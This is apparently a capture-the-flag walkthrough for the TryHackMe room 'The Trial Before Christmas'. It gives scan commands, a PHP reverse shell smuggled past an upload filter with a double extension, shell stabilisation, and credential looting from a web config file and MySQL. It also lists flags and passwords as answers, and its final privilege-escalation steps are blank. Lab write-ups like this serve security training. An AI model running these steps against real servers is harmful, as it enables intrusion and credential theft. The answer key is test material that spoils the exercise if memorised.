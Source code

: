 ```yaml
---
description: Web
---
```


# The Trial Before Christmas

## Video

## Resources

## Challenges

### Scan the machine. What ports are open?

```text
nmap -sC -sV -T5 -p1-65535 10.10.243.219
```

![](../.gitbook/assets/image%20%28367%29.png)

{% hint style="success" %}
80, 65000
{% endhint %}

### What's the title of the hidden website? It's worthwhile looking recursively at all websites on the box for this step.

```text
gobuster dir -u http://10.10.243.219 -w /usr/share/dirb/wordlists/common.txt
```

![](../.gitbook/assets/image%20%28371%29.png)

```text
gobuster dir -u http://10.10.243.219:65000 -w /usr/share/dirb/wordlists/common.txt -x php -t 50
```

![](../.gitbook/assets/image%20%28361%29.png)

![](../.gitbook/assets/image%20%28359%29.png)

{% hint style="success" %}
Light Cycle
{% endhint %}

### What is the name of the hidden php page?

```text
gobuster dir -u http://10.10.243.219:65000 -w /usr/share/dirb/wordlists/common.txt -x php -t 50
```

![](../.gitbook/assets/image%20%28360%29.png)

{% hint style="success" %}
uploads.php
{% endhint %}

### What is the name of the hidden directory where file uploads are saved?

{% hint style="success" %}
grid
{% endhint %}

### Bypass the filters. Upload and execute a reverse shell. 

```text
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

mv php-reverse-shell.php image.jpeg.php
```

![](../.gitbook/assets/image%20%28365%29.png)

![](../.gitbook/assets/image%20%28368%29.png)

![](../.gitbook/assets/image%20%28366%29.png)

{% hint style="success" %}
No answer needed
{% endhint %}

### What is the value of the web.txt flag?



![](../.gitbook/assets/image%20%28364%29.png)

{% hint style="success" %}
THM{ENTER\_THE\_GRID}
{% endhint %}

### Upgrade and stabilize your shell.

```text
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl + Z
stty raw -echo; fg
```

{% hint style="success" %}
No answer needed
{% endhint %}

### Review the configuration files for the webserver to find some useful loot in the form of credentials. What credentials do you find? **username:password**

```text
cd /var/www/
cd TheGrid
cd includes
cat dbauth.php
```

![](../.gitbook/assets/image%20%28362%29.png)

{% hint style="success" %}
tron:IFightForTheUsers
{% endhint %}

### Access the database and discover the encrypted credentials. What is the name of the database you find these in?

```text
mysql -u tron -p
IFightForTheUsers
show databases;
use tron;

```

![](../.gitbook/assets/image%20%28363%29.png)

{% hint style="success" %}
tron
{% endhint %}

### Crack the password. What is it?

{% embed url="https://hashes.com/en/tools/hash\_identifier" %}

![](../.gitbook/assets/image%20%28369%29.png)

{% hint style="success" %}
@computer@
{% endhint %}

### Use su to login to the newly discovered user by exploiting password reuse.



### What is the value of the user.txt flag?



### Check the user's groups. Which group can be leveraged to escalate privileges?

###  

### Abuse this group to escalate privileges to root.



### What is the value of the root.txt flag?



